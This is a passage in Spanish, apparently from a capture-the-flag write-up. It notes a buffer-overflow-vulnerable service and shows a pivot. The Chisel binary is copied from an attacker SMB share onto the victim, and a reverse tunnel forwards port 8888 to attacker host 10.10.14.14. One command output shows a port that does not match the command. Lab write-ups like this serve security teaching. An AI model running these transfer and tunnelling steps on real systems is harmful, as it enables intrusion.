 {: .nolineno}

Al investigar sobre vulnerabilidades para este servicio, se descubre que la versión en cuestión es susceptible a un desbordamiento de búfer (**buffer overflow**). Por lo tanto, se plantea la posibilidad de intentar explotar esta vulnerabilidad con el objetivo de obtener una **shell** con privilegios elevados.


![buffer](/buff/buffer.png)


### Pivoting

El inconveniente radica en la necesidad de contar con conectividad al puerto **8888**. Por lo tanto, se plantea la implementación de un **port forwarding** para redirigir dicho puerto hacia el equipo local. Con este propósito, se procede a transferir el binario de **Chisel** para facilitar esta tarea.


```bash
copy \\10.10.14.14\smbFolder\chiselWin.exe
```
{: .nolineno}

Se revisa la ocupación actual de puertos dentro de la máquina atacante con la asistencia de `netstat`.

```bash
netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
udp        0      0 0.0.0.0:43016           0.0.0.0:*                           -
```
{: .nolineno}

Se procede a montar el servidor de **Chisel** en la máquina atacante con el siguiente comando:

```bash
./chiselLinux server -v  --reverse -p 4444
2024/01/08 10:04:06 server: Reverse tunnelling enabled
2024/01/08 10:04:06 server: Fingerprint s7DUkRxiUyHmCrHIVP+ZVw6kp1UTBS3Ssa3/Z0GaO2o=
2024/01/08 10:04:06 server: Listening on http://0.0.0.0:1234
```
{: .nolineno}

Dentro de la máquina víctima, se utiliza el siguiente comando para transferir el puerto **8888** al servidor atacante:

```bash
.\chiselWin.exe client IPatacente:PuertoServer R:PuertoExponer:127.0.0.1:PuertoExponer
```
{: .nolineno}

```bash
.\chiselWin.exe client 10.10.14.14:4444 R:8888:127.0.0.1:8888
```
{: .nolineno}
